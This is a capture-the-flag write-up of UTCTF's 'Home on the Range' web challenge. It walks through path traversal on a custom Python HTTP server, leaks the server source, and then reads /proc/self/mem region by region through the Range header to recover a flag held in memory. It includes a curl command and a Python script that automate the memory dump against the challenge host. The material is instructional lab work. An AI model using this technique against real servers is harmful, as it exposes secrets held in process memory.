







# Web

##  Home on the Range 


### Info

       


## solution:

this challenge is one of the best challenges i solved in ctfs because it touched a really interesting concept with educational way ....
there is i think 3 steps to solve the challenge:

### First step: Path Traversal:

so the description said that `I wrote a custom HTTP server to play with obscure HTTP headers.` and trying to request the home page , we will notice that the server is a simple python httpserver `Server: BaseHTTP/0.6 Python/3.12.2`


we can see there is a `hello.html` file actually this file doesn't matter but trying to request it will give us an http header called `Accept-Ranges` you can find [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) more information about it ,because we will need it later!


now we know it's a simple python httpserver and yes it's vulnerable to path traversal from we can try access to the root dir by just go back `GET /../../ HTTP/1.1 Host: guppy.utctf.live:7884`:


and YES we can see the root dir list , ofc we will try to search for the flag.txt thinking it's a simple challenge!
but wait until you open the `server.py` file XD
it's a looong script ! it's a customized http server like the description says with a custom `Range` HEADER
```bash
import os
from html import escape
from mimetypes import guess_type
import re
from random import randbytes
import signal
import sys
import threading

with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")

def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range):
    boundary = randbytes(64).hex()
    for [first, last] in (ranges if ranges != [] else [[None, None]]):
        count = None
        if first is None:
            if last is None:
                first = 0
            else:
                first = file_len - last
                count = last
        elif last is not None:
            count = last - first + 1

        if (count is not None and count < 0) or first < 0:
            return False
            .
            .
            .
```


### Second step: Understand the Code And the Range header:

so we leaked the server code and it's so long but only 3 sections i found importants the first lines:
```
with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")
```
the lines that explain how the Range header works in the function `def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range)` 
the last lines:

```
server.serve_forever()
with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```
1-just from this thre sections we know there were a file named flag.txt , we read its content to a variable named `the_flag` and we removed it !

2-also we can understand how `Range` work and briefly it's like can split the downloaded data to bytes ranges
with the format Range: bytes=[start-end],[start,end],...... and get  a response for each region 

3-we can clearly say that the flag won't be written in the file again unless the server is down!because of this`server.serve_forever()`

### Third step: The exploit:

After reading the code actually i thought we have to crush the server somehow then perform a Race Condition
to read the /setup/flag.txt before the script delete it but the author of the challenge said:
```
What approaches are invalid?
Trying to crash/shutdown/SIGTERM the server
Performance or race conditions
Brute force / dirbuster
Exploits of the Python interpreter
```

So me And my teammate [0utC4s7](https://cybersecfun.pythonanywhere.com/index.html) searhed a lot about how we can get the file again ! But Wait it's impossible ...... After a while we thought that `the_flag` variable it's not setted for nothing , Here we start searching About how we can Read a variable content in a running proces ! we start by reading the `proc/self/cmdline` to identify the  runnin process and indeed it's `server.py`



then we found out the file `proc/self/maps` that contains memory map information for the process, providing details of the virtual memory address space and their permissions :



And here we Got the idea of reading the Memory to find `the_flag` variable and we have : `/proc/self/mem` our champion because it provides direct access to the memory of a the process , but we didn't celebrate for long time:



Error code explanation: 500 - I/O error ! we tried to read the file in our local machines :

```bash
┌──(mo㉿ElMo)-[~]
└─$ cat /proc/self/mem   
cat: /proc/self/mem: Input/output error
```
same thing ..... there is something wrong here , But Waaait here u can start to link the ideas 

1-we have a file `maps` contain memory map infos with region of the VM with permessions And not all regions are readable ?!!

2-we have `mem` file that contain the content of the memory , BUT `we cant read it simply because we dont have permission to read all regions` 

3- we have `Range` header that can read specific range of bytes 

HERE the brilliant Idea , we can read region by region  in the `mem` file the using `Range Header` and getting the starting and ending addresses of each region  from the `maps` file.
if u didnt understand well what the files do read [here](https://medium.com/@razika28/inside-proc-a-journey-through-linuxs-process-file-system-5362f2414740)

so we can read the mem liks this:(`NB: we have pass the start - end of region to the Range header as decimal`)



let's go ... it worked we can now read the memory , so we keap reading the region that we have permission for 
and we get the flag by searching for the flag format:



we can automate the process 
```bash
curl 'http://guppy.utctf.live:7884/../../proc/self/maps' --path-as-is -s -H 'Range: bytes=0-22770' > memory_ranges.txt 
```
```python
import requests

def hex_to_decimal(hex_str):
    return int(hex_str, 16)

def read_memory_ranges(file_path):
    memory_ranges = []
    with open(file_path, 'r') as file:
        for line in file:
            if line.strip():
                parts = line.split()
                start_hex = parts[0].split('-')[0]
                end_hex = parts[0].split('-')[1]
                start_decimal = hex_to_decimal(start_hex)
                end_decimal = hex_to_decimal(end_hex)
                memory_ranges.append((start_decimal, end_decimal))
    return memory_ranges

def send_requests(memory_ranges):
    for start, end in memory_ranges:
        url = "http://guppy.utctf.live:7884/../../proc/self/mem"
        headers = {'Range': 'bytes={}-{}'}
        headers['Range'] = headers['Range'].format(start, end)
        response = requests.get(url, headers=headers)
        print(f"\nResponse for Range {start}-{end}: {response.status_code}")
        if "utflag" in response.text:
            print("\nFLAG FOUND!!!")
            print(response.text)
            exit()

def main():
    file_path = "./memory_ranges.txt" 
    memory_ranges = read_memory_ranges(file_path)
    send_requests(memory_ranges)

if __name__ == "__main__":
    main()
```


